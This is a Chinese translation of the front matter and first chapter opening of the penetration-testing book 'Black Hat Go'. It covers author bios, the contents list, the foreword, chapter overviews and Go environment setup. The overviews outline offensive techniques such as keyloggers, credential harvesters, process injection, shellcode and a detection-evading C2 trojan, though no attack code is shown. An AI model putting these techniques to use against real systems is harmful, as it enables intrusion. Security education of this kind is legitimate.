# Black Hat Go：黑客与渗透测试者的 Go 编程 Vol.1


## HD Moore 序言


## 关于作者

**Tom Steele** 自 2012 年 v1 版本发布以来一直使用 Go，是该领域首批利用该语言开发攻击性工具的人之一。他是 Atredis Partners 的管理首席研究顾问，拥有超过 10 年的对抗性和基于研究的安全评估经验。Tom 曾在 Defcon、Black Hat、DerbyCon 和 BSides 等许多会议上进行演讲并开展培训课程。在技术之外，Tom 还是一名巴西柔术黑带，经常参加区域级和国家级比赛。他在爱达荷州拥有并运营着自己的柔术道馆。

**Chris Patten** 是 STACKTITAN 的创始合伙人和首席顾问，这是一家专门从事对抗服务的安全咨询公司。Chris 在安全行业以各种身份执业超过 25 年。在过去的十年里，他为许多商业和政府机构提供各种安全问题的咨询，包括对抗攻击技术、威胁狩猎能力和缓解策略。Chris 在上一份职位中领导了北美最大的对抗团队之一。

在正式担任顾问之前，Chris 曾荣光役于美国空军，支持作战。他曾在美国特种作战司令部（USSOCOM）的国防部特种作战情报社区积极任职，为特种作战小组的敏感网络战争倡议提供咨询。在 Chris 完成兵役后，他曾在多家财富 500 强电信公司担任首席架构师，以研究身份与合作伙伴合作。

**Dan Kottmann** 是 STACKTITAN 的创始合伙人和首席顾问。他在北美最大的对抗咨询公司的增长和发展中发挥了不可或缺的作用，直接影响了技术工艺、效率、客户体验和交付质量。Dan 拥有 15 年经验，将其职业生涯的大部分时间致力于跨行业、客户直面的咨询和咨询开发，主要关注信息安全和应用交付。

Dan 曾在多个国家和区域安全会议上进行演讲，包括 Defcon、BlackHat Arsenal、DerbyCon、BSides 等。他对软件开发充满热情，并创建了各种开源和专有应用程序，从简单的命令行工具到复杂的三层及云 Web 应用程序。

## 关于技术审查员

Alex Harvey 一生都在与技术打交道，从嵌入式系统、机器人和编程开始。他在大约 15 年前转向信息安全，专注于安全测试和研究。他从不回避为了工作制作工具，开始使用 Go 编程语言后从此再也没有回头。

## 目录

*   **第 1 章**：Go 基础
*   **第 2 章**：TCP、扫描器与代理
*   **第 3 章**：HTTP 客户端与工具的远程交互
*   **第 4 章**：HTTP 服务器、路由和中间件
*   **第 5 章**：利用 DNS
*   **第 6 章**：与 SMB 和 NTLM 交互
*   **第 7 章**：滥用数据库和文件系统
*   **第 8 章**：原始数据包处理
*   **第 9 章**：编写和移植漏洞代码
*   **第 10 章**：Go 插件与扩展工具
*   **第 11 章**：实现与攻击密码学
*   **第 12 章**：Windows 系统交互与分析
*   **第 13 章**：使用隐形术隐藏数据
*   **构建一个控制远程木马 RAT**
*   索引

## 引言

### 1. Go 基础

*   设置开发环境
    *   下载并安装 Go
    *   设置 `GOROOT` 定义 Go 二进制文件位置
    *   设置 `GOPATH` 定义 Go 工作空间
    *   配置环境
    *   查询 Go 环境
*   理解 Go 语法
    *   数据类型
    *   结构体
    *   并发
    *   错误处理
    *   将数据映射到结构体
*   总结

### 2. TCP、扫描器与代理

*   设置开发环境
    *   下载并安装 Go
    *   设置 `GOROOT` 定义 Go 二进制文件位置
    *   设置 `GOPATH` 定义 Go 工作空间
    *   配置环境
    *   查询 Go 环境
*   理解 Go 语法

### 3. HTTP 客户端与工具的远程交互

*   HTTP 基础
*   构建客户端
    *   调用 API
    *   定义请求
    *   解析结构化响应
*   使用 Shodan 构建 HTTP 客户端
    *   设置环境
    *   定义目标
    *   获取令牌
    *   定义请求和响应方法
    *   创建配置
    *   爬取 Bing 元数据
*   总结

### 4. HTTP 服务器、路由和中间件

*   HTTP 服务器基础
*   构建简单的服务器
*   构建路由器
*   构建中间件
    *   使用 `gorilla/mux` 包路由
    *   使用 `Negroni` 构建中间件
    *   使用 `Negroni` 添加认证
    *   使用模板生成 HTML 响应

### 5. 利用 DNS

*   编写 DNS 客户端
    *   获取 A 记录
    *   处理 Answers
    *   枚子域名
*   编写 DNS 服务器
    *   实验室设置和服务器介绍
    *   创建 DNS 服务器和代理

### 6. 与 SMB 和 NTLM 交互

*   SMB 包
*   理解 SMB
    *   理解 SMB 安全令牌
    *   设置 SMB 会话
    *   使用字段混合编码
    *   理解元数据和引用字段
    *   理解 SMB 实现
*   使用 SMB 猜测密码
*   使用哈希传递技术密码
*   恢复 NTLM 密码
    *   计算哈希
    *   恢复 NTLM 哈希

### 7. 滥用数据库和文件系统

*   使用 Docker 设置数据库
    *   安装并填充 MongoDB
    *   安装并填充 PostgreSQL、SQL 和 MySQL 数据库
    *   安装并填充 Microsoft SQL Server 数据库
*   使用 Go 连接并查询数据库
    *   查询 MongoDB
    *   查询 SQL 数据库
*   构建数据库扫描器
    *   实现 MongoDB 数据库扫描器
    *   实现 MySQL 数据库扫描器
*   掠夺文件系统

### 8. 原始数据包处理

*   设置你的环境
*   使用 `pcap` 子包识别设备
    *   实时采集并过滤结果
    *   嗅探并显示明文用户凭据
    *   检查 TCP 标志位
    *   构建 BPF 过滤器
    *   编写端口扫描器

### 9. 编写和移植漏洞代码

*   创建 fuzzer
    *   缓冲区溢出模糊测试
    *   SQL 注入模糊测试
*   将漏洞迁移到 Go
    *   从 Python 迁移漏洞
    *   从 C 语言迁移漏洞
    *   在 Go 中创建 Shellcode
    *   C 转换
    *   十进制转换
    *   数字进制转换
    *   原始数据转换
    *   Base64 编码
    *   关于汇编语言的说明
*   总结

### 10. 10 个 Go 插件与扩展工具

*   使用 Go 的原生插件系统
    *   创建主程序
    *   构建一个密码破解插件
    *   运行扫描器
*   在 Lua 中构建插件
    *   创建 `head()` HTTP 函数
    *   创建 `get()` 函数
    *   在 Lua VM 中注册函数
    *   编写你的主函数
    *   创建你的插件脚本
    *   测试 Lua 插件
*   总结

### 11. 实现与攻击密码学

*   复习基础密码学概念
*   了解标准加密库
*   探索哈希算法
    *   破解 MD5 或 SHA-256 哈希值
    *   实现 `bcrypt`
    *   消息身份验证
    *   数据加密
    *   对称密钥加密
*   非对称加密
*   暴力破解 RC2
    *   入门
    *   产生工作负载
    *   执行工作并解密数据
    *   编写主函数
    *   运行程序
*   总结

### 12. Windows 系统交互与分析

*   Windows API 的 `OpenProcess()` 函数
    *   `unsafe.Pointer` 和 `uintptr` 类型
    *   使用 `syscall` 包执行进程注入
    *   定义 DLL 并分配变量
    *   使用 `OpenProcess` Windows API 获取进程令牌
    *   使用 `VirtualAllocEx` Windows API 操纵内存
    *   使用 `WriteProcessMemory` Windows API 写入内存
    *   使用 `GetProcessAddress` Windows API 查找 `LoadLibrary`
    *   使用 `CreateRemoteThread` 执行恶意 DLL
    *   Windows API
    *   使用 `WaitForSingleObject` Windows API 验证注入
    *   使用 `VirtualFreeEx` Windows API 清理内存
*   可执行文件
    *   理解 PE 文件格式
    *   编写 PE 解析器
    *   额外练习
*   在 Go 中使用 C
    *   安装 C Windows 工具链
    *   使用 C 结合 Windows API 创建消息框
*   总结

### 13. 使用隐写术隐藏数据

*   探索 PNG 格式
    *   头部
*   数据块序列 (Chunk Sequence)
*   读取图像字节数据
    *   读取头部数据
    *   读取数据块序列
*   写入图像字节数据以植入负载
    *   定位数据块偏移
    *   使用 `ProcessImage()` 方法写入字节
    *   使用 XOR 异或编解码图像字节数据
*   总结
*   额外练习

### 14. 构建命令与控制木马 (RAT)

*   入门
    *   安装 Protocol Buffers 以定义 gRPC API
    *   创建项目工作空间
    *   定义并构建 gRPC API
*   创建服务器
    *   实现协议接口
    *   编写 `main()` 函数
*   创建客户端插件
*   构建管理组件
    *   运行 RAT
    *   改进 RAT
    *   加密通信
    *   处理连接中断
    *   注册插件
    *   添加数据库持久化
    *   支持多个插件
    *   添加插件功能
    *   链式执行操作系统命令
    *   增强插件的真实性并遵循良好的操作安全 (OPSEC)
    *   添加 ASCII 艺术
*   总结

## 前言

编程语言对信息安全一直有着影响。每种语言提供的设计约束、标准库和协议实现都定义了构建在其之上的任何应用程序的攻击面。安全工具也不无例外；正确的语言可以简化复杂的任务，并让极其困难的任务变得轻而易举。Go 的跨平台支持、单二进制输出、并发特性以及海量的生态系统使其成为安全工具开发的极佳选择。Go 正在重写安全应用开发和安全工具创建的规则，使得工具更快速、更安全且更具移植性。

在我开发 Metasploit Framework 的 15 年里，该项目经历了两次完全重写，语言从 Perl 变为 Ruby，现在又支持一系列多语言模块、扩展和载荷。这些变化反映了软件开发不断演变的本质；为了在安全领域保持跟前，你的工具需要不断适应，而使用正确的语言可以节省大量时间。但就像 Ruby 一样，Go 并不是一夜之间变得无处不在。新语言构建任何有价值的东西需要一种信念，考虑到生态系统的不确定性，以及在标准库赶上之前完成常见任务所需要付出的巨大努力。

《Black Hat Go》的作者是 Go 安全工具开发的先驱，他们负责了一些最早的开源 Go 项目，包括 BlackSheepWall、Lair Framework 和 sipbrute 等。这些项目是使用该语言可以构建任何内容的绝佳范例。作者们在构建软件和拆解软件方面同样游刃有余，这本书正是他们结合这些能力的绝佳范例。

《Black Hat Go》提供了进入安全领域进行 Go 开发所需的一切，而不会陷入那些不常使用的语言特性中。想要写一个快到疯狂的网络扫描器、恶意的 HTTP 代理或跨平台的命令与控制框架吗？这本书为你准备的。如果你是一个寻找安全工具开发洞察的资深程序员，这本书将介绍各种类型的黑客在编写工具时会考虑的概念和权衡。对安全感兴趣的老练 Go 开发者可以从这里的方法中学到很多，构建工具攻击其他软件与典型的应用开发需要不同的思维。当你的目标包括绕过安全控制和规避检测时，你的设计权衡可能会大不同。

如果你已经从事攻击安全工作，这本书将帮助你构建比现有解决方案快几个数量级的实用程序。如果你从事防御工作或事件响应工作，这本书将让你了解如何分析和防御用 Go 语言编写的恶意软件。

黑客愉快！

## 致谢

如果没有 Robert Griesemer、Rob Pike 和 Ken Thompson 创造出这种出色的开发语言，这本书就不可能实现。这些人以及整个核心开发团队在每次发布时都持续贡献有用的更新。如果这种语言学习和使用起来不是那么简单、有趣，我们永远不会写这本书。

作者还感谢 No Starch Press 团队：Laurel、Frances、Bill、Annie、Barbara 以及所有与我们互动过的每一个人。你们引导我们走过了编写第一本书的未知领域。生活总会有变故——新家庭、新工作——在此期间，你们保持了耐心，但仍促使我们完成了这本书。Starch Press 的整个团队与这个项目的合作是一件愉快的事。

我要感谢 Jen 的所有支持、鼓励，以及在我被关在办公室度过夜晚周末编写那本永没写完的书时，她让生活继续前进。Jen，你给我的帮助比你想象的要多，你不断的鼓励让这个梦想变成了现实。我诚挚地感谢生命中有你。我必须感谢 T（我的宠物）在我埋头苦干时守护办公室的地板。最后，也是我最内心的，我想把这本书献给我的狗狗 Luna 和 Annie，它们于我写书期间去世了。你们女孩对我来说就是一切，这本书将永远作为对你们爱的纪念。

**Chris Patten**

我想诚挚地感谢我的妻子和最好的朋友 Katie，感谢你一贯的支持、鼓励和对我的信任。没有一天我不对你为我们家庭所做的一切感到感激。我想感谢 Brooks 和 Subs，你们给了我努力工作的理由。做你们的父亲没有更好的工作了。还有一个男人可以要求的最好的办公室狗狗——Leo（逝世）、Arlo、Murphy，甚至还有 Howie（是的，包括 Howie）——你们系统地破坏了我的房子，并偶尔让我怀疑人生选择，但你们的陪伴和存在对我来说意义非凡。我会给每一个人一本签名的书让他们去啃。

**Dan Kottmann**

感谢我生命中的爱 Jackie，感谢你的支持鼓励；没有你的支持和你对我们家庭所做的一切，我将一无是。感谢 Atredis Partners 的朋友和同事，以及过去任何与我共享 shell 的人。因为有你们，才有今天的我。感谢那些从第一天起相信我的导师和朋友。你们太多了无法一一列，我很感激生命中这些优秀的人。感谢妈妈，让我参加了计算机班（这些在当时是真实的）。回想起来，那些完全是浪费时间，我大部分时间都在玩《魔法》，但它激发了兴趣。最重要的是，感谢我的救主耶稣基督。

走到这里是一段漫长的道路——几乎花了三年的时间。为了这一步发生了很多事情，而现在我们终于到达了。我们诚心感谢来自朋友、同事、家人以及早期发布读者的早期反馈。亲爱的读者，非常、非常感谢您的耐心；我们感激不尽，并希望您像我们喜欢编写这本书一样喜欢它。祝您一切顺利！现在，去创造一些惊人的代码吧！

## 引言


在大约六年的时间里，我们三个人领导了北美最大的专业渗透测试咨询机构之一。作为首席顾问，我们代表客户执行技术项目工作，包括网络渗透测试——但我们也主导了更优的工具、流程和方法论的开发。在某个时刻，我们采用了 Go 作为我们主要的开发语言之一。

Go 语言提供了其他编程语言的最优特性，在性能、安全性和易用性之间取得了平衡。很快，当我们在开发工具时，我们就默认将其作为我们的首选语言。最终，我们甚至发现自己成为了该语言的倡导者，推动安全行业的同事们尝试它。我们觉得 Go 的益处至少值得考虑。

在本书中，我们将从安全实务人员和黑客的视角，带你开启一段 Go 编程语言的之旅。与其他黑客书籍不同，我们不会仅仅向你展示如何自动化第三方或商业工具（尽管我们会触及这一点）。相反，我们将深入探讨实用且多样化的主题，这些主题涉及对对手有用的特定问题、协议或战术。我们将涵盖 TCP、HTTP 和 DNS 通信，与 Metasploit 和 Shodan 交互，搜索文件系统和数据库，将端口漏洞从其他语言迁移到 Go，编写 SMB 客户端的核心函数，攻击 Windows、交叉编译二进制文件、玩弄加密、库、与 Windows API 交互，以及更多内容。这计划非常雄心勃勃！我们最好还是开始吧……

## 本书适合谁

本书适合任何想要学习如何使用 Go 开发自己的黑客工具的人。在我们的整个职业生涯中，特别是作为顾问期间，我们一直倡导编程是渗透测试人员和安全专业人员的基础性技能。具体来说，编码能力可以增强你对软件如何工作以及它如何被破解的理解。此外，如果你置于开发者的立场，你将对他们在保障安全方面面临的挑战获得全面的理解，并可以利用你的个人经验更好地建议缓解措施、消除虚假报告并定位晦涩的漏洞。编码迫使你与第三方库以及各种应用程序栈和框架进行交互。对于许多人（包括我们）来说，这种亲身体验的和摸索导致了最大的个人成长。

为了充分利用本书的价值，我们鼓励你克隆本书的官方代码仓库，这样你就能拥有我们将讨论的所有运行示例。你可以在 `https://github.com/blackhat-go/bhg` 找到示例。

## 本书不是什么

本书并不是对 Go 编程的通用介绍，而是关于如何使用 Go 开发安全工具的介绍。我们首先是黑客，然后才是编码者——顺序就在此。我们中没有人当过软件工程师。这意味着，作为黑客，我们对功能的重视程度高于优雅性。在许多情况下，我们选择像黑客一样进行编码，忽略了软件设计中的某些惯用法或最佳实践。作为顾问，时间总是稀缺的；开发更简单的代码通常更快，因此比优雅性更优。当你需要快速为问题创建解决方案时，风格问题是次要的。

这无疑会激怒 Go 的纯洁主义者，他们可能会向我们发推文，说我们没有优雅地处理所有错误情况，我们的示例可以被优化，或者有更好的结构或方法可以产生所需的结果。在大多数情况下，我们并不关心教你最棒、最优雅或 100% 符合惯用法的解决方案，除非这样做能切实受益于最终结果。尽管我们会简要地介绍语言语法，但这纯粹是为了建立一个我们可以在此基础上构建的基础。毕竟，并不是《用 Go 优雅地学习编程》——这是《黑帽 Go》（Black Hat Go）。

## 为什么在黑客攻击中使用 Go？


在 `Go` 之前，你可以通过动态类型语言（如 `Python`、`Ruby` 或 `PHP`）优先考虑易用性，但是以性能和安全为代价。或者，你可以选择静态类型语言（如 `C` 或 `C++`），它们提供高性能和安全性，但并不十分易用。`Go` 去掉了作为其主要祖先 `C` 语言的许多丑陋，使得开发更加易用。同时，它是一种静态类型语言，会在编译时产生语法错误，增加了你对代码实际上能够安全运行的信心。由于它是编译的，它的性能比解释型语言更优，并且在设计时考虑了多核计算，使得并发编程变得轻而易举。

使用 `Go` 的这些理由并不专门针对安全实务人员。然而，该语言的许多特性对黑客和对手特别有用：

- **包管理系统** `Go` 的包管理解决方案是直接集成的，你可以轻松下载、安装包。
- **交叉编译** `Go` 的最佳特性之一是可以交叉编译执行文件，你可以在 `Linux` 或 `Mac` 上编写代码并编译为 `Windows` 格式。
- **丰富的标准库** `Go` 包含了许多执行任务所需的库，如加密、网络通信、数据库连接和数据编码（`JSON`、`XML`、`Base64`、`hex`）。
- **并发** 与其他语言不同，`Go` 在多核处理器普及的同时时期发布。因此，`Go` 的并发模式和性能优化是针对这种模型调整的。

# 为什么你可能不喜欢 Go

我们承认 `Go` 并不是问题的完美解决方案。以下是该语言的一些缺点：

- **二进制文件大小** 不言而喻。当你使用 `Go` 编译二进制文件时，大小可能有几个 `MB`。当然，你可以去除调试符号并使用压缩包来帮助减小体积，但这些步骤需要注意。这对于需要将二进制文件随电子邮件、托管在共享文件系统上或通过网络传输的安全实务人员来说是一个缺点。
- **冗长** 虽然 `Go` 比 `C#`、`Java` 甚至 `C++` 不冗长，但你可能仍然发现简单的语言构造迫你在处理列表（`Go` 中称为切片）、循环或错误处理时过度表达。`Python` 的单行代码在 `Go` 中很容易变成三行。

# 章节概述

本书的第一章介绍了 `Go` 语法和哲学的概述。接下来，我们将开始探索可以用于工具开发的示例，包括 `HTTP`、`DNS` 和 `SMB` 等常用网络协议。然后我们将深入探讨作为渗透测试人员遇到的各种战术和问题，涵盖数据窃取、数据包嗅探和漏洞开发。最后，我们将简单回顾如何创建动态的可插件工具，然后深入研究加密、攻击微软 `Windows` 以及实施隐写。

在许多情况下，你有机会扩展我们展示的工具以满足你的特定目标。虽然我们在书中提供了健壮的示例，但我们真正的意图是为你提供知识和基础，通过你可以扩展或重构这些示例以实现你的目标。我们想教你钓鱼。

在继续阅读本书的任何内容之前，请注意，我们——作者和出版者——创建这些内容仅供合法使用。对于你选择的任何恶意或非法行为不承担任何责任。所有内容仅供教育目的；未经授权，请勿对系统或应用程序执行任何渗透测试活动。

后续章节提供了每个章节的简要概述。

第 1 章：`Go` 基础

本章的目标是介绍 `Go` 编程语言的基础，并提供必要的基础以

为了理解书中的概念，本书包含了对 `Go` 基础语法和惯用法的简要回顾。我们将讨论 `Go` 生态系统，包括支持的工具、`IDE`、依赖管理等。对这门语言陌生的读者可以期望学习到 `Go` 的基础知识，这将有望帮助他们理解、实现和扩展后续章节中的示例。

## 第 2 章：`TCP`、扫描器与代理

本章通过实际的 `TCP` 应用，引入了 `Go` 的基本概念、并发原语和模式、输入/输出（`I/O`）以及接口的使用。我们将首先带你创建一个创建一个简单的 `TCP` 端口扫描器，该扫描器使用解析后的命令行选项来扫描端口列表。这将突出 `Go` 代码与其他语言相比的简单性，并加深你对基本类型、用户输入和错误处理的理解。接下来，我们将讨论如何通过引入并发函数来提高此端口扫描器的效率和速度。然后，我们将通过构建一个 `TCP` 代理（一个端口转发器）来引入 `I/O`——从基础示例开始，并完善我们的代码以创建一个更可靠的解决方案。最后，我们将在 `Go` 中重现 `Netcat` 的“巨大的安全空洞”（`gaping security hole`）功能，教你如何在操作标准输入输出的同时运行操作系统命令，并将其重定向到 `TCP`。

## 第 3 章：`HTTP` 客户端与工具的远程交互

`HTTP` 客户端是与现代 `Web` 服务器架构交互的关键组件。本章将向你展示如何创建执行各种常见 `Web` 交互所需的 `HTTP` 客户端。你将处理多种格式以与 `Shodan` `Metasploit` 进行交互。我们还将演示如何与搜索引擎协作，利用它们来抓取和解析文档元数据，以便提取用于组织画像活动的有用信息。

## 第 4 章：`HTTP` 服务器、路由与中间件

本章引入了创建 `HTTP` 服务器必需的概念和惯例。我们将讨论常见的路由、中间件和模板模式，利用这些知识来创建一个凭据收集器和键盘记录器。最后，我们将演示如何通过构建反向 `HTTP` 代理来实现命令与控制（`C2`）连接的多路复。

## 第 5 章：利用 `DNS`

本章向你介绍使用 `Go` 进行的 `DNS` 概念。首先，我们将执行客户端操作，包括如何查找特定的域名记录。然后，我们将向你展示如何编写自定义 `DNS` 服务器和 `DNS` 代理，两者对于 `C2` 操作都非常有用。

## 第 6 章：与 `SMB` 和 `NTLM` 交互

我们将探索 `SMB` 和 `NTLM` 协议，并将它们作为 `Go` 协议实现讨论的基础。通过对 `SMB` 协议的部分实现，我们将讨论数据的序列化和反序列化、自定义字段标签的使用等内容。我们将讨论并演示如何使用此实现来检索 `SMB` 签名策略，以及执行密码猜测攻击。

## 第 7 章：滥用数据库和文件系统

掠夺数据是对抗性测试的关键方面。数据存储在许多资源中，包括数据库和文件系统。本章介绍了跨各种常见 `SQL` 和 `NoSQL` 平台连接和交互数据库的基本方法。你将学习连接 `SQL` 数据库和运行查询的基础知识。我们将向你展示如何在数据库和表中搜索敏感信息，这是后利用阶段常用的常用技术。我们还将展示如何遍历文件系统并检查文件中的敏感信息。

## 第 8 章：原始数据包处理

我们将向你展示如何通过使用 `libpcap` 的 `gopacket` 库来嗅探和处理网络数据包。你将学习如何识别网络设备、使用数据包过滤器并处理这些数据包。然后我们将开发一个能够可靠地扫描各种保护机制（包括 `SYN` 洪水和同步 `Cookie`，这些会导致正常扫描出现过多的假阳性）的端口扫描器。

## 第 9 章：编写和移植漏洞代码

本章几乎完全专注于创建利用程序。它从创建一个模糊器（`fuzzer`）开始以发现不同类型的漏洞。章节的后半部分讨论了如何将其他语言的现有漏洞移植到 `Go`。这些讨论包括 `Java` 反序列化利用漏洞和 `Dirty COW` 权限提升漏洞的移植。我们以讨论用于你的 `Go` 程序的 `shell` 码（`shellcode`）的创建和转换作为结束。

## 第 10 章：`Go` 插件与可扩展工具

我们将介绍两种创建可扩展工具的独立方法。第一种在 `Go` 1.8 版本中引入，使用 `Go` 原生的插件机制。我们将讨论这种方法的用例，并讨论第二种利用 `Lua` 创建可扩展工具的方法。我们将演示实际示例，展示如何采用每种方法执行常见的安全任务。

## 第 11 章：实现与攻击密码学

本章涵盖了使用 `Go` 进行对称和非对称加密的基本概念。这些信息侧重于通过标准 `Go` 包使用和理解密码学。`Go` 是少数几种语言之一，它不是使用第三方库进行加密，而是使用语言内部的实现。这使得代码易于导航、修改和理解。

我们将通过检查常见用例和创建工具来探索标准库。本章将向你展示如何执行哈希、消息认证和加密。最后，我们将演示如何暴力破解一个经过 `RC2` 加密的密文。

## 第 12 章：`Windows` 系统交互与分析

在关于攻击 `Windows` 的讨论中，我们将演示与 `Windows` 原生 `API` 交互的方法，探索 `syscall` 包以执行进程注入，学习如何构建可移动执行文件（`PE`）二进制解析器。本章将以讨论通过 `Go` 的互操作机制调用原生 `C` 库结束。

## 第 13 章：使用隐写术隐藏数据

隐写是将信息或文件隐藏在另一个文件中。本章介绍了隐写术的一种变体：在文件中隐藏任意数据。

## 第 14 章：构建命令与控制

最后一章讨论了 `Go` 的命令与控制（`C2`）实现。我们将利用之前章节中获得的知识来构建 `C2` 通道。这些技术本质上是定制的，旨在规避基于特征和基于网络的控制。

# 1 基础知识


为了理解书中的概念，本书包含了对 `Go` 基础语法和惯用法的简要回顾。我们将讨论 `Go` 生态系统，包括支持的工具、`IDE`、依赖管理等。对这门语言陌生的读者可以期望学习到 `Go` 的基础知识，这将有望帮助他们理解、实现和扩展后续章节中的示例。

## 设置开发环境

要开始 `Go`，你需要一个功能性的开发环境。在本节中我们将带你完成下载 `Go` 以及设置工作区和环境变量的步骤。我们将讨论各种集成开发环境以及 `Go` 自带的一些工具。

### 下载并安装 Go

首先从 `https://golang.org/dl/` 下载适用于你的操作系统和架构的 `Go` 版本。`Windows`、`Linux` 和 `macOS` 都有二进制文件。如果你使用的系统没有预编译二进制文件，可以从链接下载 `Go` 源码。

执行二进制文件并按照提示操作（提示很少），安装整个 `Go` 核心包。包（在大多数语言中称为库）包含你在 `Go` 程序中使用的有用代码。

### 设置 GOROOT 定义 Go 二进制文件位置

接下来，操作系统需要知道如何找到 `Go` 安装路径。在大多数情况下，如果你将 `Go` 安装在默认路径（例如 `/usr/local/go` 或 `Nix`/`BSD` 类系统），你不需要在此处采取任何操作。然而，如果你选择在非标准路径安装 `Go`，或者在 `Windows` 上安装 `Go`，你就需要告诉操作系统 `Go` 二进制文件的位置。

你可以通过从命令行设置保留的 `GOROOT` 环境变量来实现。设置环境变量取决于特定的操作系统。在 `Linux` 或 `macOS` 上，你可以将此内容添加到 `~/.profile`：

```
set GOROOT=/path/to/go
```

在 `Windows` 上，你可以添加此环境变量

通过系统（控制面板），点击“环境变量”按钮。

## 设置 GOPATH 以确定你的 Go 工作区的位置

与设置 `GOROOT` 不同（后者仅在某些安装场景下是必要的），你必须始终定义一个名为 `GOPATH` 的环境变量，以告诉 `Go` 工具链你的源代码、第三方库和编译后的程序所在。这可以是你选择的任何位置。一旦你选择或创建了这个基础工作区目录，请创建以下三个子目录：`bin`、`pkg` 和 `src`（稍后将详细介绍这些目录）。然后，设置名为 `GOPATH` 的环境变量指向你的基础工作区目录。例如，如果你想将项目放在 `Linux` 系统主目录下的 `gocode` 目录中，可以将 `GOPATH` 设置为：

```
GOPATH=$HOME/gocode
```

`bin` 目录将包含你编译并安装的 `Go` 可执行文件。构建并安装的二进制文件会自动放置在此位置。`pkg` 目录存储各种包对象，包括你的代码可能依赖的第三方依赖。例如，你可能想使用另一个开发者的代码，它更优雅地处理 `HTTP` 路由。`pkg` 目录将包含在你的代码中使用其实现时所需的二进制产物。最后，`src` 目录将包含你编写的所有源代码。

你的工作区位置是任意的，但内部的目录必须符合此命名约定和结构。你将在本章后面学习的编译、构建和包管理命令都依赖于这种常见的目录结构。没有这个重要的设置，`Go` 项目将无法编译或无法定位任何必要的依赖！

配置好必要的 `GROOT` 和 `GOPATH` 环境变量后，确认它们已正确设置。你可以在 `Linux` 和 `Windows` 上通过 `set` 命令完成。此外，检查你的系统是否可以定位二进制文件，并使用 `go version` 确认你安装了期的 `Go` 版本：

```
$ go version
go version go1.11.5 linux/amd64
```

此命令应该返回你安装的二进制文件版本。

## 选择集成开发环境

接下来，你可能想选择一个集成开发环境（`IDE`）来编写代码。虽然不是强制要求的，但许多功能可以帮助减少代码错误、添加版本控制快捷键、辅助包管理等。由于 `Go` 仍然是一门相当年轻的语言，可能没有像其他语言那样成熟的 `IDE`。

幸运的是，过去几年的进步为你提供了几个功能完备的选择。我们将在本章回顾其中一些。要查看更完整的 `IDE` 或编辑器列表，请访问 `Go` `wiki` 页面：`https://github.com/golang/go/wiki/IDEsAndEditorPlugins/`。本书对 `IDE`/编辑器不可感知，这意味着我们不会强迫你使用任何特定的解决方案。

## Vim 编辑器

`Vim` 文本编辑器在许多操作系统发行版中可用，提供了一个多功能、扩展且完全开源的开发环境。`Vim` 的一个吸引人的特性是它允许用户从终端运行一切，而不会被华丽的 `GUI` 干扰。

`Vim` 拥有庞大的插件生态系统，通过你可以自定义主题、添加版本控制、定义代码片段、添加布局和代码导航功能、包含自动完成、执行语法高亮和检查（`linting`）等许多功能。`Vim` 最常用的插件管理系统包括 `Vundle` 和 `Pathogen`。

使用 `Vim` 开发 `Go`，请安装图 1-1 所示的 `vim-go` 插件（`https://github.com/fatih/vim-go/`）。

```
func Parse() {
	hostname := flag.String("hostname"
```

图 1-1：`vim-go` 插件

当然，要用 `Vim` 进行 `Go` 开发，你必须熟悉 `Vim`。此外，使用你想要的所有功能来定制开发环境可能会是一个令人沮丧的过程。如果你使用免费的 `Vim`，你可能需要牺牲商业 `IDE` 的一些便利性。

### GitHub Atom

`GitHub` 的 `IDE` —— `Atom`（`https://atom.io/`）是一个可黑客化（`hackable`）的文本编辑器，提供了大量的社区驱动包。与 `Vim` 不同，`Atom` 提供的是专门的 `IDE` 应用，而不是终端内的解决方案，如图 1-2 所示。



图 1-2：支持 `Go` 的 `Atom`

和 `Vim` 一样，`Atom` 是免费的。它开箱支持平铺布局、包管理、版本控制、调试、自动完成以及许多额外功能，或者通过使用 `go-plus` 插件（该插件提供了专门的 `Go` 支持：`https://atom.io/packages/go-plus`）。

## Microsoft Visual Studio Code

微软的 `Visual Studio Code`，或 `VS Code`（`https://code.visualstudio.com`），可以说是功能最丰富且最易配置的 `IDE` 应用之一。图 1-3 所示的 `VS Code` 是完全开源的并且

